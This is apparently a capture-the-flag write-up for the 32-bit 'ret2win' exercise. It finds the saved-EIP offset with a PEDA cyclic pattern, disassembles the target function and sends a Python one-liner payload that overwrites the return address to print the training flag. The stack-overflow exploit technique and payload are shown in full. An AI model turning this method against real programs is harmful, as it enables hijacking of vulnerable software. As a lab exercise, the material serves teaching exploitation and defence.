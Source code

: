 The program will then print out it's registers, but the one of most importance is the EIP register.
```bash
EAX: 0xffffd290 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
EBX: 0x0 
ECX: 0xf7faf87c --> 0x0 
EDX: 0xffffd290 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
ESI: 0x1 
EDI: 0xf7fae000 --> 0x1b2db0 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffd2c0 --> 0xf7fa0062 --> 0xe0a5210 
EIP: 0x41414641 ('AFAA')
```

Here we see it has a value of `0x41414641`.  What's happened in execution is we've overwritten the saved EIP, and then the program has attempted to return back to that location in memory.  Since there's nothing there, it's thrown a segmentation fault.  we use `pattern offset 0x41414641` in PEDA, which tells us at what position that value was in our string.

```
gdb-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
```

Here we see it's at position 44.  So we want to write 44 bytes, and then write our return address into our input.

So we know from the description that we want to return into the ret2win function.  We'll have a quick look at the disassembly of this function to see what it's doing.

```gdb
;-- ret2win:
0x08048659      55             push ebp
0x0804865a      89e5           mov ebp, esp
0x0804865c      83ec08         sub esp, 8
0x0804865f      83ec0c         sub esp, 0xc
0x08048662      6824880408     push str.Thank_you__Here_s_your_flag: ; 0x8048824 ; "Thank you! Here's your flag:"
0x08048667      e894fdffff     call sym.imp.printf
0x0804866c      83c410         add esp, 0x10
0x0804866f      83ec0c         sub esp, 0xc
0x08048672      6841880408     push str.bin_cat_flag.txt   ; 0x8048841 ; "/bin/cat flag.txt"
0x08048677      e8b4fdffff     call sym.imp.system
0x0804867c      83c410         add esp, 0x10
0x0804867f      90             nop
0x08048680      c9             leave
0x08048681      c3             ret
```

It prints out the value of the flag we want.  Obviously, this is a controlled example but it does show how we can redirect into an alternative function.

By looking at the disassembly, we already know what location we want to return to (It's the location in memory we've disassembled, so 0x08048659), so now we just need to construct our payload, and send it into the program.  In this case we just overwrite EIP with the location of that function.

```bash
root@kali:~/Desktop# python -c 'print "A"*44 + "\x59\x86\x04\x08"'|./ret2win32
For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer; 
What could possibly go wrong? 
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets! 
> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!} 
Segmentation fault 
```
